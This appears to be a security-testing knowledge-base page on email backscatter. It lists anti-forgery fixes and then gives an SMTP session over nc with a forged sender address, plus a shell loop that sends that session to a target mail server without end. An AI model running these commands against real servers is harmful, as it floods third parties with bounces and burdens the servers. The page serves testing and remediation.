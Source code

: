```yaml
---
title : "Backscatter"
# pre : ' '
description : "Backscatter is the incorrectly automated bounce messages sent by mail servers, typically as a side effect of incoming spam.can be used."
date : 2020-07-03T09:33:43+02:00
# hidden : true
# draft : true
weight : 150
# tags : ['']
---
```


---

Backscatter is the incorrectly automated bounce messages sent by mail servers, typically as a side effect of incoming spam.can be used.

### Solution

```plain
- Implement anti-forgery checks - SPF, DKIM and DMARC
- Implement recepient checks for acceptance of e-mail
- If above not possible disable NDR reports
```

## Examples

### Single test

```plain
nc 10.10.10.10 25
EHLO example.com
MAIL FROM:victim@example.com
RCPT TO:notexistingmailbox@target.com
DATA
backscatter testdata
.
```

### Automated test

Create a file with this content (backscatter.txt)

```plain
EHLO example.com
MAIL FROM:victim@example.com
RCPT TO:notexistingmailbox@target.com
DATA
backscatter testdata
.
```

```plain
#!/bin/sh
while true;
do
    cat backscatter.txt | while read L; do sleep "1"; echo "$L"; done | "nc" -w 3 -C -v "<target-ip>" "25";
done
```

## URL List

- [Wikipedia.org - Backscatter](https://en.wikipedia.org/wiki/Backscatter_(email))
